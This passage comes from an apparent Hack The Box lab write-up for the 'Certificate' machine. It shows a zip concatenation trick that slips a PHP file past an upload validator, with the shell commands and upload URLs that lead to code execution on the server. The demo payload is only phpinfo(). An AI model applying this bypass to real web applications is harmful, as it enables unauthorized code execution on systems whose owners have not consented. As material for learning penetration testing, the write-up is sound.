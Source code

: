 ![htb-certificate-malicious-content](images/HTB-certificate/htb-certificate-malicious-content.png)

Uploading a regular file is a bust, but we're still able to **upload a `zip` archive**. The server will **extract the `zip` file** and perform a validation check on **every file in the archive.**

## Initial Foothold
### Zip Concatenation
After trying a [zip-slip](https://res.cloudinary.com/snyk/image/upload/v1528192501/zip-slip-vulnerability/technical-whitepaper.pdf){:target="_blank"}{:rel="noopener noreferrer"} attack, I couldn't seem to find a writable folder. However the windows server is vulnerable to [zip concatenation](https://web.archive.org/web/20250617164437/https://perception-point.io/blog/evasive-concatenated-zip-trojan-targets-windows-users/){:target="_blank"}{:rel="noopener noreferrer"}!

By manually combining/concatenating separate archives, extraction programs will react differently. In our case, the server will extract both archives while **only validating the first!**

Our payload is a `zip` archive containing a `php` file we want to execute
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ echo '<?php phpinfo(); ?>' > phpinfo.php

┌──(kali@kali)-[~/certificate.htb]
└─$ zip payload.zip phpinfo.php 
  adding: phpinfo.php (stored 0%)
```

Create a valid archive that will pass the server's validation
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ zip good.zip test.pdf  
  adding: test.pdf (deflated 11%)
```

Now we concatenate the files
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ cat good.zip payload.zip > zip-concat.zip
```

Upload `zip-concat.zip` and we'll get the link to the extracted `test.pdf` file
```
http://certificate.htb/static/uploads/8ad6b1453a685cd6a629959dcfb5039d/test.pdf
```

By changing `test.pdf` to our payload file `phpinfo.php` we can run `php` on the server!
```
http://certificate.htb/static/uploads/8ad6b1453a685cd6a629959dcfb5039d/phpinfo.php
```
![htb-certificate-phpinfo 1](images/HTB-certificate/htb-certificate-phpinfo 1.png)
